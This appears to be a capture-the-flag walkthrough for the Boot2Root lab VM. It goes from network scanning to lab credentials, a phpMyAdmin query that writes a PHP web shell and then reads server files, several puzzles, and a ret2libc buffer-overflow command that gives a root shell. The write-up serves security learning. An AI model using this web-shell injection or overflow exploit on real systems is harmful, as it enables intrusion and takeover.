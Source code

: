  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

We need to understand what we can gain access to and where it is located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap 192.168.99.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100 and that port
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP, we're going to use DIRB to gather information about the file structure.
[DIRB](https://sourceforge.net/projects/dirb/files/)
is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/

-------------------------------------------------------------------------------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

-------------------------------------------------------------------------------------------

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------

Now lets login to phpmyadmin

login: root
password: Fg-'kKXBj87E:aJ$


Following [This tutorial on PHPmyadmin exploitation](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

We're going to inject a php file that allows us to run shell commands within the browser.
By trying the differents subfolders of the forum we finally uncover that phpmydamin has writing rights to templates_c:

```SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";```

"/var/www/html/" because this is where websites are normally stored on a server.


![phpmyadmin](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

---------------------------------------------------------------------------------------------

* Funny thing is we can now navigate the server through the web browser
```https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home/```

From there we uncover the presence of an intersting folder called ***LOOKATME*** inside the home folder that contains a file called password

```https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password```

this gives us the pair: ```lmezard:G!@M6f4Eatau{sF"```

----------------------------------------------------------------------------------------------

Let's try that in the ftp access [ftp!](ftp://192.168.99.100/)

It works !

There's a file called "fun" and README file that says : ```Complete this little challenge and use the result as password for user 'laurie' to login in ssh```

-----------------------------------------------------------------------------------------------

## Puzzles to root access

fun turns out to be an archive, which when uncompressed shows multiples .pcap files (packets captured by a wireshark type sniffer). using ```grep return```  we can get 12 files each containing a character. By ordering the files in ascending order based on the comments values we get: "Iheartpwnage" 
A hint in the fun file also tells us to sha256 the result, which gives: "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"  

We can finally access to laurie's account to the server:

```laurie@192.168.99.100```
"330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
![ssh](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/ssh.png)

------------------------------------------------------------------------------------------------

There we find a README hinting that solving the bomb wil grant us access to thor's shh access

1. Bomb step 1
2. Bomb step 2
3. Bomb step 3
4. Bomb step 4
5. Bomb step 5
6. Bomb step 6

***This finally gets us access to thor's ssh !***

------------------------------------------------------------------------------------------------

Inside there is a file called turtle and a README telling us solving the riddle will grant us zaz's ssh access

The turtle file contains instruction structured like this:

```
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 210 spaces
Recule 210 spaces
Tourne droite de 90 degrees
Avance 120 spaces

Tourne droite de 10 degrees
Avance 200 spaces
Tourne droite de 150 degrees
Avance 200 spaces
Recule 100 spaces
Tourne droite de 120 degrees
Avance 50 spaces

Tourne gauche de 90 degrees
Avance 50 spaces
```

[Turtle](https://docs.python.org/2/library/turtle.html) turns out to be a python module used to draw pictures

By using our provided script, we parse and draw what turns to write "SLASH":

![turtle](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/turtle.png)

We then md5 SLASH in order to get zaz's password: "646da671ca01bb5d84dbb5fb2238dc8e"

------------------------------------------------------------------------------------------------------

## Buffer overflow

After connecting to zaz by ssh, we find a binary file called ***exploit_me***

Exploit_me has a particularity though, it has ***root rights***, meaning it has the right to execute root binaries limited to his reach :smirk 

Lets check its content wih gdb and disasemble it:

![disas](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/disas.png)

And sure enough it uses the strcpy function, which is a well known security risk, as it doesn't compare the input size to its destination buffer. This allows to to atempt an attack by ret2libc


- We place 3 breakpoints (```b * <address>```) in the program:
  - One at the begining of the execution
  - One at the call to strcpy
  - One after the return value of strcpy

- We then run the program a first time with a random input ```OSEF``` in order to get the buffer address
- We get adsress of the system function with ```p system``` 
![system](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/system.png)
- Then we fetch the address of the char str "/bin/sh" with the command: ```find &system,+9999999, "/bin/sh"```
- Finally we get the buffer size by substracting the address of $eip with the buffer address and find ***140***: ![substract](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/substract.png)

- This allows us to launch the ret2lib attack with this command: 

```./exploit_me $(python -c "print('A'*140 + '\xb7\xe6\xb0\x60'[::-1] + 'OSEF' + '\xb7\xf8\xcc\x58'[::-1])")``` 
Which gives us a shell with root access !

![congrats_overflow](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats_overflow.png)



